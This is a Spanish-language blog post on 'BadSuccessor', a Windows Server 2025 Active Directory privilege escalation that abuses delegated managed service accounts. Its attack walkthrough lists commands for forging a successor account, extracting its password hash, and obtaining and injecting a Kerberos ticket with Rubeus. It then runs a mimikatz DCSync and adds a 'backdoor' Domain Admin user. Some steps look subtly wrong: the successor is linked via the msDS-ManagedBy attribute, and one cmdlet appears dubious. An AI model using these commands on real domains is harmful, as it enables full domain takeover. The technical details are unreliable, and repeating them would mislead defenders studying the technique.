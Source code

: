```yaml
---
title: BadSuccessor - Escalada de privilegios abusando de dMSA en Active Directory
date: 2025-05-22 09:00:00 
categories: [CIBERATAQUES]
tags: [ciberseguridad, ciberataque, vulnerabilidad]
description: Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor.
image: /assets/136/preview1.png
---
```


Yuval Gordon, investigador de Akamai, ha descubierto una técnica avanzada de escalada de privilegios en entornos Windows Server 2025 conocida como BadSuccessor. Esta técnica depende de una nueva funcionalidad legítima: las Cuentas de Servicio Administradas Delegadas (dMSA).

### ¿Qué son las dMSA?

Las Delegated Managed Service Accounts (dMSA) fueron introducidas en Windows Server 2025 como una mejora sobre las Managed Service Accounts (MSA) y Group Managed Service Accounts (gMSA). Su objetivo es permitir una gestión centralizada, segura y delegada de cuentas de servicio, incluyendo:

- Rotación automática de contraseñas.
- Restricción por máquina (sólo equipos autorizados pueden usarla).
- Delegación de control para facilitar la administración sin comprometer el principio de privilegios mínimos.

Sin embargo, es precisamente esta capacidad de delegación la que abre la puerta a BadSuccessor.

### La idea detrás de BadSuccessor

BadSuccessor se basa en el abuso de la funcionalidad que permite delegar la gestión de una dMSA. Mediante esta característica, es posible que una entidad (usuario o grupo) administre otra cuenta de servicio sin necesidad de privilegios directos de dominio.

El problema aparece cuando:

- Una cuenta de bajo privilegio es delegada para gestionar una dMSA privilegiada (por ejemplo, usada por un servicio con permisos elevados).
- Esta cuenta crea una nueva dMSA "sucesora" que se declara como reemplazo de la dMSA original.
- Active Directory acepta al sucesor como legítimo, permitiéndole heredar privilegios y usos de la cuenta original.

Este flujo puede usarse para escalar privilegios dentro del dominio sin explotar vulnerabilidades, sino simplemente configuraciones laxas de delegación.

## Escenario de ataque

- El atacante crea una nueva cuenta dMSA, por ejemplo: attacker$.
- El atacante modifica los atributos del objeto de AD de la dMSA objetivo (por ejemplo, svc_SQLProd$) para vincular la nueva dMSA (attacker$) como su sucesora.
- El atacante solicita un TGT (Ticket Granting Ticket) a través de Kerberos usando su nueva cuenta attacker$.
- El DC emite un TGT válido para attacker$, que incluye acceso y permisos equivalentes a los de la cuenta original (target user, como svc_ejemplo$). Como resultado, el atacante actúa con privilegios heredados. Si la dMSA original era miembro de grupos como Domain Admins, ahora attacker$ tiene acceso al dominio completo.

<img src="/assets/136/136-1.jpg"  alt="Imagen01" width="500" height="500">

### Requisitos del ataque

- Control parcial o total de una cuenta con delegación sobre una dMSA privilegiada.
- Acceso a un entorno de dominio con controladores de dominio actualizados a Windows Server 2025.
- Conocimiento de las estructuras de delegación en Active Directory.

### Ejemplo - Escenario de ataque completo: De usuario delegado a Domain Admin

**Infraestructura del laboratorio**
- Dominio: lab.local
- DC: DC01.lab.local (Windows Server 2025)
- Cuenta dMSA privilegiada: svc_SQLProd$ (usada por un SQL Server miembro de Domain Admins)
- Usuario con delegación: john.smith (puede gestionar la cuenta svc_SQLProd$)

**Objetivo**

Elevar privilegios desde john.smith hasta obtener un TGT como svc_SQLProd$, lo cual permite realizar acciones como un Domain Admin.

**1. Verificar delegación sobre la dMSA**

    Get-ACL "AD:\CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" | Format-List

Verifica que john.smith tenga permisos como WriteProperty, GenericAll, o similares.

**2. Crear una dMSA sucesora**

    New-ADServiceAccount -Name "svc_Malicious" -RestrictToOutboundAuthenticationOnly:$true
    
    # Delegar la gestión (herencia/sucesión)
    Set-ADObject -Identity "CN=svc_SQLProd$,CN=Managed Service Accounts,DC=lab,DC=local" \
      -Add @{"msDS-ManagedBy"="CN=svc_Malicious,CN=Managed Service Accounts,DC=lab,DC=local"}

Este paso vincula la nueva dMSA como sucesora, heredando la funcionalidad de la original. 

**3. Instalar la dMSA en una máquina autorizada**

    Install-ADServiceAccount -Identity svc_Malicious
    Test-ADServiceAccount -Identity svc_Malicious

**4. Obtener el secreto gestionado (hash o contraseña)**

Instala el módulo RSAT si es necesario:

    Import-Module ActiveDirectory
    Get-ADServiceAccount svc_Malicious -Properties msDS-ManagedPassword

Alternativamente, usa PowerView o DSInternals para extraerlo:

    Get-ADComputerServiceAccountKey -AccountName svc_Malicious

**5. Solicitar un TGT con Rubeus**

    Rubeus.exe asktgt /user:svc_Malicious$ /rc4:<NTLM_HASH> /domain:lab.local

Y cargarlo en la sesión actual:

    Rubeus.exe ptt /ticket:<base64_TGT>

**6. Acciones como Domain Admin**
   
Si svc_SQLProd$ es miembro de Domain Admins, ahora el atacante puede:

    # Enumerar controladores
    nltest /dclist:lab.local
    
    # DCSync
    mimikatz "lsadump::dcsync /user:Administrator"
    
    # Agregar usuario administrador
    net user backdoor P@ssw0rd! /add
    dsmod group "CN=Domain Admins,CN=Users,DC=lab,DC=local" -addmbr "CN=backdoor,CN=Users,DC=lab,DC=local"

### Mitigaciones recomendadas

1. **Auditar la delegación de control** en cuentas de servicio: ninguna cuenta de bajo privilegio debería tener permisos sobre cuentas usadas por servicios críticos.

2. **Revisar el uso de sucesores** en configuraciones de dMSA: documentar qué cuentas pueden sustituir a otras.

3. **Limitar la creación de nuevas dMSA** a roles administrativos específicos y supervisados.

4. **Supervisar cambios en objetos dMSA** mediante logging y SIEM.

### Conclusión

BadSuccessor es un excelente ejemplo de cómo una funcionalidad legítima puede transformarse en un vector de ataque si no se configura correctamente. La aparición de dMSA en Windows Server 2025 introduce ventajas significativas para la gestión de servicios, pero también requiere una revisión cuidadosa de las políticas de delegación. Este tipo de investigaciones demuestran que la seguridad no está sólo en los parches, sino en el diseño y la gobernanza del entorno.






